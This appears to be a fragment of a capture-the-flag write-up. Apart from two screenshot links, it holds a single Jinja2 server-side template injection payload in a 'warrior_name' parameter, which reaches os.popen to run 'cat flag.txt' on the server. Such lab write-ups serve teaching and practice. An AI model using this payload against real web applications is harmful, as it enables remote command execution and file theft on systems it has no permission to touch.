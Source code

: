 ![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-5.png)
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-12.png)

{% raw %}
```liquid
warrior_name={{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat%20flag.txt').read()}}
```
{% end raw %}
